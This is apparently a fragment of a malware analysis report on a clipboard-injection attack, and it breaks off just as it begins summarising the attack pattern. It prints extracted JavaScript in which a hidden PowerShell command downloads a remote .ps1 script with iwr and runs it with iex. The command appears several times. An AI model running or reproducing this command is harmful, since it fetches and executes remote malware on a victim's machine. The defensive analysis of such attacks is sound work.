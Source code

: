 Command:
```powershell
powershell 
```

Context:
```javascript
...idden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Example 4**:

Command:
```powershell
powershell 
```

Context:
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " +...
```

### PowerShell Parameters

Found 2 htaPath declarations

Malicious PowerShell parameters:

**Example 1**:

Parameters:
```powershell
-w hidden -c \
```

Context:
```javascript
...d; const htaPath = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaP
```

**Example 2**:

Parameters:
```powershell
-w hidden -c \
```

Context:
```javascript
...const htaPath = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " +...
```


## Clipboard Attack Pattern Analysis

Based on the data analyzed, here's the complete clipboard attack pattern:
